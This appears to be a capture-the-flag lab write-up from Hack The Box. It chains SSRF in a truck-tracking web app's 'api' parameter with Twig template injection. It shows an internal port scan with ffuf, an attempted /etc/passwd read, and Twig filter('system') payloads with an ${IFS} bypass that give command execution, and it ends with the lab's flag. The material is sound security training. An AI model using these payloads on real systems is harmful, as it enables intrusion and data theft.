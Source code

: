 ```yaml
---
sticker: lucide//server
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![[Pasted image 20250212154851.png]]

Let's begin by checking the page:

![[Pasted image 20250212154913.png]]

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![[Pasted image 20250212155010.png]]

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs: `["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
    
- For each truck ID, an HTTP request is made to fetch its location.
    

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**:  
    `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`).  
    _(Synchronous requests block the UI until completion, which is generally discouraged.)_
    
- **Request Headers**:  
    Sets `Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
    

---

### **3. Request Handling**

- **POST Data**:  
    Sends the parameter `api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
    
    - `encodeURIComponent("=" + truckID)` ensures the `=` and truck ID are URL-safe (e.g., `%3DFusionExpress01`).
        
    - Final URL sent to the server: `http://truckapi.htb/?id=FusionExpress01`.
        
- **Server-Side Behavior**:  
    The server likely acts as a proxy, using the `api` parameter to fetch data from the internal `truckapi.htb` endpoint.  
    _(This could introduce SSRF vulnerabilities if the server doesn’t validate the URL.)_
    

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
    
    - Parses the response as JSON.
        
    - Displays `data['location']` if available, or `data['error']` if an error is present.
        
- **Failure Case**:  
    Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
    

---

### **5. UI Updates**

- Updates the HTML element with `id=truckID` (e.g., `<div id="FusionExpress01">`) to show the location/error.
    

---

### **Key Observations**

- **SSRF Risk**: The server trusts the `api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
    
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
    
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
  1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
  2. Server fetches data from `truckapi.htb`
  3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![[Pasted image 20250212160205.png]]

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![[Pasted image 20250212160429.png]]

It went through, what if we point to a closed port:

![[Pasted image 20250212160546.png]]

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.252.66:53014/
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Host: 83.136.252.66:53014
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Error \(7\)
________________________________________________

3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![[Pasted image 20250212161958.png]]

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![[Pasted image 20250212165927.png]]

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![[Pasted image 20250212170132.png]]

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![[Pasted image 20250212170307.png]]

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![[Pasted image 20250212170624.png]]

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![[Pasted image 20250212170814.png]]

